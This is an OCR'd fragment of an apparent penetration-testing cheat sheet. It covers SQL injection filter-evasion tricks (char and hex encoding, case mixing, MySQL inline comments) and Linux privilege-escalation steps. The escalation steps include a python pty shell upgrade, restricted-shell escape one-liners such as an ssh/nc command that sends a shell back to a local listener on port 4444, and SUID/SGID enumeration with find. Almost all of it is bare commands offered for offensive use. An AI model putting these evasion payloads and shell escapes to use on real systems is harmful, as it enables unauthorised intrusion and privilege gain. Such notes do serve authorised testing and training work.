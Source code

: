 ```
table_name between char(97) and char(122) X

Convert strings to HEX format.
table_name between 0x61 and 0x7a
table_name like 0x7573657273

Change case
union > UniOn
select > SeLect

Inline comments << Mysql 5.0
/*! <sql operator> */
```

## Privilege Escalation

### Linux privilege escalation
#### Spawn Interactive Shell and set env  

python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  

#### Restricted bash
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  

#### Check environment 
Check any restricitions on any folders  
mount -l        >> any no exec or no suid?  

Check any unmounted drives  
cat /etc/fstab  

#### SUID
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.  
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.  
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.  
